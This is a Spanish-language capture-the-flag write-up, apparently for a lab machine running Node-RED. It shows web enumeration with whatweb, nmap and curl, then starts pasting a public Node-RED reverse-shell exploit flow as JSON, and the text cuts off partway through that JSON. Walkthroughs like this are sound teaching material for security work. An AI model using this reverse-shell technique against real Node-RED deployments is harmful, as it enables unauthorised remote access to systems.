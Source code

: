 #### Whatweb {-}

```bash
whatweb http://10.10.10.94:1880
```

No vemos nada interessante

#### Analyzando routas con NMAP {-}

```bash
nmap --script http-enum -p1880 10.10.10.94 -oN webScan
```

No vemos nada.

#### Analysis manual {-}

Con firefox vamos a la url `http://10.10.10.94` y vemos una pagina que nos dice que el GET no esta permitido para esta pagina. Le lanzamos un curl

```bash
curl -s -X GET "http://10.10.10.94:1880"
curl -s -X POST "http://10.10.10.94:1880"
curl -s -X POST "http://10.10.10.94:1880" | jq

#Output
{
    "id":"e6fae2bb0098d336bf34ab00a5978700",
    "ip":"::ffff:10.10.14.29",
    "path":"/red/{id}"
}
```

Si tratamos de ir desde firefox a la url `http://10.10.10.94/red/e6fae2bb0098d336bf34ab00a5978700` entramos en un Node-RED. 
## Vulnerability Assessment {-}

### Node-RED vulnerability {-}

Desde un node red, hay
possibilidades de entablar una reverse shell con los nodes TCP y EXEC pero como todas las instucciones se entablan con JSON, tiramos de un exploit
en el github de [valkyrix](https://github.com/valkyrix/Node-Red-Reverse-Shell/blob/master/node-red-reverse-shell.json). Lo copiamos en un fichero
y modificamos el **host** y el **port**



```bash
[
  {
    "id": "7235b2e6.4cdb9c",
    "type": "tab",
    "label": "Flow 1"
  },
  {
    "id": "d03f1ac0.886c28",
    "type": "tcp out",
    "z": "7235b2e6.4cdb9c",
    "host": "",
    "port": "",
    "beserver": "reply",
    "base64": false,
    "end": false,
    "name": "",
    "x": 786,
    "y": 350,
```
